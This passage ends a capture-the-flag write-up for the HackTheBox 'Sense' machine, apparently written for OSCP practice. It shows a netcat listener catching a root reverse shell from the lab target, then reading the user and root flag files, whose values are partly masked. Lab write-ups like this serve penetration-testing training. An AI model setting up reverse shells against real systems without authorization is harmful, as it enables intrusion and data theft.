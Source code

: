 Have yourself a look at the netcat listener, a shell should have spawned.

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sense]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.60] 4621
whoami
root
```

It's a surprise that the application runs as root, but I take it. So it's time to get the flags.

# Flags

---

Since I got a root shell and no privesc was necessary, I can get both flags in one go:

```bash
ls /home
.snap
rohit
cat /home/rohit/user.txt
87**************************348b
cat /root/root.txt
d0**************************1a86
```

# Conclusions

---

The box was nice and fast. It was straight forward. I wish that there was a privesc, it would be more difficult with one. I can definetly recommend the box to peoples that are new to the pentesting and are preparing for their OSCP.